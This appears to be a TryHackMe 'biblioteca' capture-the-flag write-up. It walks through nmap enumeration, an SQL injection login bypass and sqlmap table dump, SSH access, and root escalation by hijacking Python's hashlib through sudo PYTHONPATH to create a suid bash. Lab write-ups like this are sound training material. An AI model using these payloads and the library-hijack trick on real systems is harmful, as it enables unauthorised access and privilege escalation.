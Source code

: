 # TryHackMe biblioteca Writeup

* Link https://tryhackme.com/room/biblioteca
* IP 10.10.222.150

## Enumeration

### Portscan - nmap

Initial scan of the machine 

```
$ nmap -sC -sV -oA nmap/initial 10.10.222.150
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-06 09:29 EDT
Nmap scan report for 10.10.222.150
Host is up (0.032s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 00:0b:f9:bf:1d:49:a6:c3:fa:9c:5e:08:d1:6d:82:02 (RSA)
|   256 a1:0c:8e:5d:f0:7f:a5:32:b2:eb:2f:7a:bf:ed:bf:3d (ECDSA)
|_  256 9e:ef:c9:0a:fc:e9:9e:ed:e3:2d:b1:30:b6:5f:d4:0b (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login 
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.01 seconds
```

### Web - Port 8000

Visiting the server on port 8000 reveals a web site

[login](./screenshots/login.png)

One thing to test for is sql Authentication bypass via SQLI and this works for username so  using the below for both username and password reveals a user called smokey


```
' or 1=1--
```
[smokeylogin](./screenshots/smokeylogin.png)

So after knowing the site is vulnabke to SQLI next thing is firing up sqlmap to what info could be dumped so saving the login in request from burp to disk it can be used to find interresting tables

```
$ sqlmap -r login.req --tables 
```

which shows a specific interresting table

```
Database: website                            
[1 table]                                
+---------------------------------------+                                                  
| users                                 |
+---------------------------------------+
```

dumping that table returns an the username and password

```
$ sqlmap -r login.req -D website -T users --dump
```

The result

```
Database: website
Table: users
[2 entries]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | My_P@ssW0rd123 | smokey   |
+----+-------------------+----------------+----------+
```

## User Access


The found password and username can be used to ssh into the machine as smokey.

After spending sometime the hint in the room was a bit helpful trying to change user to hazel
using the password hazel. 
With that the user.txt can be read.

## Privilege escalation 

Checking if Hazel can run sudo reveals

```
hazel@biblioteca:~$ sudo -l
Matching Defaults entries for hazel on biblioteca:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on biblioteca:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
```
and the hasher.py

```
hazel@biblioteca:~$ cat hasher.py 
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()

```

So with that the python librart hashlib.py can be overwriten or more precise a malcious hashlib.py can created running custom code.

So the crafted malicious hashlib.py is stored in /tmp folder. IT will copy bash and set a suid bit.

```
import os

os.system("cp /bin/bash /tmp/bash")
os.system("chmod +s /tmp/bash") 
```

now the evil python library can used with the sudo command 

```
$ sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

after running the command a bash is created in tmp folder with suid bit set 

```
hazel@biblioteca:/tmp$ ls -la
total 1208
drwxrwxrwt 12 root  root     4096 Jun  6 14:11 .
drwxr-xr-x 19 root  root     4096 Dec  7 00:18 ..
-rwsr-sr-x  1 root  root  1183448 Jun  6 14:10 bash
drwxrwxrwt  2 root  root     4096 Jun  6 13:27 .font-unix
-rwxrwxr-x  1 hazel hazel      81 Jun  6 14:11 hashlib.py
drwxrwxrwt  2 root  root     4096 Jun  6 13:27 .ICE-unix
drwxr-xr-x  2 root  root     4096 Jun  6 14:10 __pycache__
drwx------  3 root  root     4096 Jun  6 13:28 snap.lxd
```

now getting root is as simple as

```
hazel@biblioteca:/tmp$ ./bash -p
bash-5.0# whoami
root
bash-5.0# 
```

Thats all on this machine a great machine.